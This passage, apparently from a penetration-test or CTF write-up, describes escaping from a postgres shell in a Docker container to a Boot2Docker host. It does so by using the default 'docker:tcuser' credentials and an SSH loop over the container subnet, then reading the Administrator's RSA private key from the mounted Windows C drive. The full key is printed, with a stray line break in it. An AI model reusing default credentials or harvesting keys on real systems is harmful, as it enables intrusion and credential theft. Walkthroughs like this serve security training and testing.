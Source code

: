 ```
postgres@bc56e3cc55e9:/$ uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

Researching further, we learned that `Boot2Docker` is a lightweight Linux distribution designed exclusively to run Docker containers. The default login credentials for the main `boot2docker` host are `docker:tcuser`.

To explore further, we attempted to SSH into the primary `boot2docker` container within the Docker network using the default credentials.

The IP address of the main `boot2docker` container was found to be `172.17.0.1`, and we successfully gained access.

```
postgres@bc56e3cc55e9:/$ for i in `seq 1 255`
> do
> ssh docker@172.17.0.$i
> done
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$
```

Inside the container, we noticed that the `C` drive of the main host running `boot2docker` was mounted. Exploring further, we found the administrator's SSH key in a directory.

```
docker@box:/c/Users/Administrator/.ssh$ ls                                     
authorized_keys  id_rsa           id_rsa.pub       known_hosts
docker@box:/c/Users/Administrator/.ssh$ cat id_rsa                             
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4SLlg/dkStA4jDUNxgF8kbNAF+6IYLNOOCeppfjz6RSOQv
Md08abGynhKMzsiiVCeJoj9L8GfSXGZIfsAIWXn9nyNaDdApoF7Mfm1KItgO+W9m
M7lArs4zgBzMGQleIskQvWTcKrQNdCDj9JxNIbhYLhJXgro+u5dW6EcYzq2MSORm
7A+eXfmPvdr4hE0wNUIwx2oOPr2duBfmxuhL8mZQWu5U1+Ipe2Nv4fAUYhKGTWHj
4ocjUwG9XcU0iI4pcHT3nXPKmGjoPyiPzpa5WdiJ8QpME398Nne4mnxOboWTp3jG
aJ1GunZCyic0iSwemcBJiNyfZChTipWmBMK88wIDAQABAoIBAH7PEuBOj+UHrM+G
Stxb24LYrUa9nBPnaDvJD4LBishLzelhGNspLFP2EjTJiXTu5b/1E82qK8IPhVlC
JApdhvDsktA9eWdp2NnFXHbiCg0IFWb/MFdJd/ccd/9Qqq4aos+pWH+BSFcOvUlD
vg+BmH7RK7V1NVFk2eyCuS4YajTW+VEwD3uBAl5ErXuKa2VP6HMKPDLPvOGgBf9c
l0l2v75cGjiK02xVu3aFyKf3d7t/GJBgu4zekPKVsiuSA+22ZVcTi653Tum1WUqG
MjuYDIaKmIt9QTn81H5jAQG6CMLlB1LZGoOJuuLhtZ4qW9fU36HpuAzUbG0E/Fq9
jLgX0aECgYEA4if4borc0Y6xFJxuPbwGZeovUExwYzlDvNDF4/Vbqnb/Zm7rTW/m
YPYgEx/p15rBh0pmxkUUybyVjkqHQFKRgu5FSb9IVGKtzNCtfyxDgsOm8DBUvFvo
qgieIC1S7sj78CYw1stPNWS9lclTbbMyqQVjLUvOAULm03ew3KtkURECgYEA17Nr
Ejcb6JWBnoGyL/yEG44h3fHAUOHpVjEeNkXiBIdQEKcroW9WZY9YlKVU/pIPhJ+S
7s++kIu014H+E2SV3qgHknqwNIzTWXbmqnclI/DSqWs19BJlD0/YUcFnpkFG08Xu
iWNSUKGb0R7zhUTZ136+Pn9TEGUXQMmBCEOJLcMCgYBj9bTJ71iwyzgb2xSi9sOB
MmRdQpv+T2ZQQ5rkKiOtEdHLTcV1Qbt7Ke59ZYKvSHi3urv4cLpCfLdB4FEtrhEg
5P39Ha3zlnYpbCbzafYhCydzTHl3k8wfs5VotX/NiUpKGCdIGS7Wc8OUPBtDBoyi
xn3SnIneZtqtp16l+p9pcQKBgAg1Xbe9vSQmvF4J1XwaAfUCfatyjb0GO9j52Yp7
MlS1yYg4tGJaWFFZ

GSfe+tMNP+XuJKtN4JSjnGgvHDoks8dbYZ5jaN03Frvq2HBY
RGOPwJSN7emx4YKpqTPDRmx/Q3C/sYos628CF2nn4aCKtDeNLTQ3qDORhUcD5BMq
bsf9AoGBAIWYKT0wMlOWForD39SEN3hqP3hkGeAmbIdZXFnUzRioKb4KZ42sVy5B
q3CKhoCDk8N+97jYJhPXdIWqtJPoOfPj6BtjxQEBoacW923tOblPeYkI9biVUyIp
BYxKDs3rNUsW1UUHAvBh0OYs+v/X+Z/2KVLLeClznDJWh/PNqF5I
-----END RSA PRIVATE KEY-----
docker@box:/c/Users/Administrator/.ssh$ 
```
